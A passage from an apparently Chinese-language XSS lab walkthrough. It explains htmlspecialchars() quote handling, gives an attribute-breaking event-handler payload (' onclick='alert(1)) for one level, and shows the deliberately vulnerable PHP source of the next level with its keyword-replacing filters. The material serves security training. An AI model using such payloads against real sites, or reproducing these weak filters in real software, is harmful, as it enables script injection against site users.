 ```php
</body>
</html>
```

```xml
htmlspecialchars()函数把预定义的字符转换为 HTML 实体
预定义的字符有：
 & （和号）成为 &amp;
 " （双引号）成为 &quot;
 ' （单引号）成为 '
 < （小于）成为 &lt;
 > （大于）成为 &gt;
```

htmlspecialchars() 默认是只编码双引号的，而且单引号无论如何都不转义。

#注入过程

我们输入`<script>alert(1)</script>`，查看网页源码

[![](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131519951.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131519951.png)

显然这一关比较第2关，把value属性过滤了。我们可以构造一个事件，使得事件发生时，则执行JavaScript。那么我们是不是可以联想到鼠标点击事件`onclinck`，因这里不会对单引号转义，那么使用单引号闭合。

payload：

```bash
' onclick='alert(1)
```

然后输入框的就会被添加 onclick属性，我们点击一下输入框，即可过关
#### （2）存储型 XSS
##### Level 8
#源码

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level9.php?keyword=not bad!"; 
}
</script>
<title>欢迎来到level8</title>
</head>
<body>
<h1 align=center>欢迎来到level8</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```